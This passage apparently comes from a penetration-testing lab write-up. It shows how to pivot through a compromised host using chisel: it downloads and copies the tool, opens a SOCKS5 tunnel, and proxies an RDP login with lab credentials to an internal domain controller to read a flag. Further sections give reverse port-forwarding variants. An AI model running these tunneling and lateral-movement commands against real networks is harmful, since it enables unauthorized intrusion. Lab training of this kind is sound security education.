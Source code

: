 #### **Lab Solution Summary**
```bash
# Attack Host Commands:
wget -q https://github.com/jpillora/chisel/releases/download/v1.7.6/chisel_1.7.6_linux_amd64.gz
gunzip chisel_1.7.6_linux_amd64.gz
chmod +x chisel_1.7.6_linux_amd64
scp chisel_1.7.6_linux_amd64 ubuntu@TARGET_IP:~/

# Pivot Host Commands:
ssh ubuntu@TARGET_IP
chmod +x chisel_1.7.6_linux_amd64
./chisel_1.7.6_linux_amd64 server -v -p 9001 --socks5

# Attack Host (new terminal):
./chisel_1.7.6_linux_amd64 client -v TARGET_IP:9001 socks
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:'pass@123'

# Target DC (RDP session):
type C:\Users\victor\Documents\flag.txt
```

---

## **6. Advanced Chisel Techniques**

### **Port Forwarding (Local)**
```bash
# Forward specific port instead of SOCKS proxy
./chisel client 10.129.202.64:1234 3389:172.16.5.19:3389

# Now connect directly to local port
xfreerdp /v:127.0.0.1:3389 /u:victor /p:pass@123
```

### **Port Forwarding (Remote)**
```bash
# Server with reverse mode
./chisel server --reverse -p 1234

# Client creating remote forward
./chisel client 10.10.14.17:1234 R:8080:172.16.5.19:80

# Now attack host port 8080 forwards to internal web server
```

### **Multiple Tunnels**
```bash
# Server supporting multiple connections
./chisel server -p 1234 --socks5

# Multiple clients can connect simultaneously
./chisel client 10.129.202.64:1234 socks    # Client 1
./chisel client 10.129.202.64:1234 socks    # Client 2
```
